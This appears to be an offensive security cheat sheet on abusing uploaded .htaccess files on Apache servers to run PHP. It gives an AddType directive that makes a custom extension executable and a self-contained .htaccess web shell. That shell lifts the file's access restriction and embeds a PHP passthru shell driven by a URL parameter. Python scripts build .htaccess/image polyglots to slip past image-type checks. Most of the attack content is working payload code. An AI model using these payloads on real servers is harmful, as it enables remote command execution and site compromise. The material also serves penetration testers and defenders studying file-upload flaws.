 # .htaccess

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerabler server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

## Summary

* [AddType Directive](#addtype-directive)
* [Self Contained .htaccess](#self-contained-htaccess)
* [Polyglot .htaccess](#polyglot-htaccess)
* [References](#references)

## AddType Directive

Upload an .htaccess with : `AddType application/x-httpd-php .rce`
Then upload any file with `.rce` extension.

## Self Contained .htaccess

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directives from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

## Polyglot .htaccess

If the `exif_imagetype` function is used on the server side to determine the image type, create a `.htaccess/image` polyglot.

[Supported image types](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) include [X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap) and [WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format). In `.htaccess` ignoring lines starting with `\x00` and `#`, you can use these scripts for generate a valid `.htaccess/image` polyglot.

* Create valid `.htaccess/xbm` image

    ```python
    width = 50
    height = 50
    payload = '# .htaccess file'

    with open('.htaccess', 'w') as htaccess:
        htaccess.write('#define test_width %d\n' % (width, ))
        htaccess.write('#define test_height %d\n' % (height, ))
        htaccess.write(payload)
    ```

* Create valid `.htaccess/wbmp` image

    ```python
    type_header = b'\x00'
    fixed_header = b'\x00'
    width = b'50'
    height = b'50'
    payload = b'# .htaccess file'

    with open('.htaccess', 'wb') as htaccess:
        htaccess.write(type_header + fixed_header + width + height)
        htaccess.write(b'\n')
        htaccess.write(payload)
    ```

## References

* [Attacking Webservers Via .htaccess - Eldar Marcussen - May 17, 2011](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [Protection from Unrestricted File Upload Vulnerability - Narendra Shinde - October 22, 2015](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Insomnihack Teaser 2019 / l33t-hoster - Ian Bouchard (@Corb3nik) - January 20, 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
